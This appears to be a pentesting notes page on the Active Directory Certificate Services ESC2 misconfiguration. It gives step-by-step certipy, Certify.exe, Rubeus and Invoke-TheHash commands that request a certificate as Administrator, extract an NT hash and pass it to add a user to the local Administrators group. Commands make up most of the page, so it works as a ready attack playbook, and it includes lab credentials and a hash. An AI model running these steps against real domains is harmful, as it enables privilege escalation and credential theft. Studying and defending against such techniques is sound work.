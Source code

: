```yaml
---
description: ESC | Active Directory Certificate Services
---
```


# ESC2

If a certificate template allows "Any Purpose" or doesnt specify any specific usage, the certifcate can be used for anything, like client authentication, server auth or code signin. If it also lets you specify a Subject Alternative Name or SAN it can be exploited like ESC1.&#x20;

{% hint style="danger" %}
A certificate template with no specific usage (like a subordinate CA certificate) can be used to sign new certificates, giving you the ability to set any usage or fields in the certificates you create.\
\
If output from certipy show Any Purpose EKU, it allows specifying a SAN, which makes it vulnerable to ESC2 and ESC1.
{% endhint %}

```bash
# Find vulnerabilities
certipy-ad find -u 'zen@lab.local' -p 'Password123!' -dc-ip 10.129.228.236 -vulnerable -stdout

# Showing
[!] Vulnerabilities
         ESC2                              : 'LAB.LOCAL\\Domain Users' can enroll and template can be used for any purpose 
```

### <mark style="color:yellow;">ESC2 from Linux</mark>

To abuse the ESC1 template we can use certipy to request a Certificate and include a alternate subject. This is done with `req` and `-upn Administrator` (or any other user.&#x20;

```bash
certipy req -u 'zen@lab.local' -p 'Password123!' -dc-ip 10.129.205.199 -ca lab-LAB-DC-CA -template ESC2 -upn Administrator
```

#### Authenticate with certificate and get a TGT

```
certipy auth -pfx administrator.pfx -username administrator -domain lab.local -dc-ip 10.129.205.199
```

### <mark style="color:yellow;">ESC2 Abuse from Windows</mark>

Enumeration with Certify.exe

```powershell
# Certify
.\Certify.exe find /vulnerable

# ADCS Enumeration
Get-ADObject -LDAPFilter '(&(objectclass=pkicertificatetemplate)(!(mspki-enrollment-flag:1.2.840.113556.1.4.804:=2))(|(mspki-ra-signature=0)(!(mspki-ra-signature=*)))(|(pkiextendedkeyusage=1.3.6.1.4.1.311.20.2.2)(pkiextendedkeyusage=1.3.6.1.5.5.7.3.2) (pkiextendedkeyusage=1.3.6.1.5.2.3.4))(mspki-certificate-name-flag:1.2.840.113556.1.4.804:=1))' -SearchBase 'CN=Configuration,DC=lab,DC=local'
```

#### Convert certificate and get NT hash

```powershell
# Request wilt alternate SAN
.\Certify.exe request /ca:LAB-DC.lab.local\lab-LAB-DC-CA /template:ESC2 /altname:administrator@lab.local

# With OpenSSL convert certificate to pfx from cert.pem
.& "C:\Program Files\OpenSSL-Win64\bin\openssl.exe" pkcs12 -in cert.pem -keyex -CSP "Microsoft Enhanced Cryptographic Provider v1.0" -export -out cert.pfx

# Authenticate with certificate
.\Rubeus.exe asktgt /user:administrator /certificate:cert.pfx /getcredentials /nowrap
```

Use Invoke-TheHash to perfrom pass the hash

```powershell
# Import Invoke-TheHash
.\Invoke-TheHash.psm1

# Use Invoke-TheHash to add user
Invoke-TheHash -Type SMBExec -Target localhost -Username Administrator -Hash 2b576acbe6bcfda7294d6bd18041b8fe -Command "net localgroup Administrators grace /add
```

